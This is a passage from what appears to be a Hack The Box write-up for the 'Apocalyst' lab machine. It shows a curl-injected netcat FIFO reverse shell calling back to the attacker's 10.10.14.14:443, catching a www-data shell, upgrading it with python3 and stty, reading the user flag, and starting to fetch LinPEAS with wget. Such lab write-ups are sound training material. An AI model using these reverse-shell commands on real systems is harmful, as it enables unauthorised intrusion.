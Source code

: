I wasn’t able to get my go-to Bash reverse shell to work, but the FIFO `nc` shell worked fine:

```

oxdf@parrot$ curl -s 'http://apocalyst.htb/?p=8' --data-urlencode '0xdf=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f'

```

With the listener already running, it gets the shell:

```

oxdf@parrot$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.46] 35858
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

`python` isn’t on this host, but `python3` is, so I can upgrade my shell:

```

$ python -c 'import pty;pty.spawn("bash")'
/bin/sh: 2: python: not found
$ python3 -c 'import pty;pty.spawn("bash")'
www-data@apocalyst:/var/www/html/apocalyst.htb$ ^Z
[1]+  Stopped                 sudo nc -lnvp 443
oxdf@parrot$ stty raw -echo ; fg
sudo nc -lnvp 443
                 reset
reset: unknown terminal type unknown
Terminal type? screen
                                                                         
www-data@apocalyst:/var/www/html/apocalyst.htb$

```

This user can access `/home/falaraki` and read `user.txt`:

```

www-data@apocalyst:/home/falaraki$ cat user.txt
9182d4d0**********************

```

## Shell as root

### Enumeration

Nothing else obvious jumped out by poking around in common directories, so I uploaded [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) by starting a Python webserver (`python3 -m http.server`) in the directory and then using `wget` from Apocalyst to download it into `/dev/shm`:
